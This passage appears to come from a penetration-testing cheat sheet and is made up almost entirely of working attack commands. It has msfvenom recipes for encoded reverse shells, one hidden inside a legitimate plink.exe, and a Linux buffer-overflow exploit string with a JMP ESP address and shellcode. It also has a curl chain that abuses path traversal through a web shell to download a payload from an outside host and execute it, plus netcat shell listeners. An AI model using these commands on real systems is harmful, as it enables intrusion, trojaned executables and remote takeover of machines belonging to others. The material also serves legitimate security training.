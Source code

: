    -   Create a PE reverse shell and embed it into an existing
        executable  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f
        exe -e x86/shikata\_ga\_nai -i 9 -x
        /usr/share/windows-binaries/plink.exe -o
        shell\_reverse\_msf\_encoded\_embedded.exe

    -   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe

-   Linux Buffer Overflows

    -   Run Evans Debugger against an app  
        edb --run /usr/games/crossfire/bin/crossfire

    -   ESP register points toward the end of our CBuffer  
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax

    -   Check for “Bad Characters” Process of elimination - Run multiple
        times 0x00 - 0xFF

    -   Find JMP ESP address  
        "\\x97\\x45\\x13\\x08" \# Found at Address 08134597

    -   crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +
        "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"

    -   msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b
        "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai

    -   Connect to the shell with netcat:  
        nc -v $ip 4444
        
Shells
===================================================================================================================================

-   Upload and execute a meterpreter shell using a web shell  
    curl -s --data "cmd=wget http://10.9.0.2:8000/dhn -O /tmp/evil"
    http://$ip/ -b "lang=../upload/1b7d2e8797d863fdf63594e390c18255.gif"
    | head -n3  
    curl -s --data "cmd=chmod 777 /tmp/evil" http://$ip/ -b
    "lang=../upload/1b7d2e8797d863fdf63594e390c18255.gif" | head -n3  
    curl -s --data "cmd=bash -c /tmp/evil" http://$ip/ -b
    "lang=../upload/1b7d2e8797d863fdf63594e390c18255.gif" | head -n3

-   Netcat Shell Listener  
    nc -nlvp 443

-   Spawning a TTY Shell - Break out of Jail or limited shell
         You should almost always upgrade your shell after taking control of an apache or www user.
        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )
        (hint: sudo -l to see what you can run)
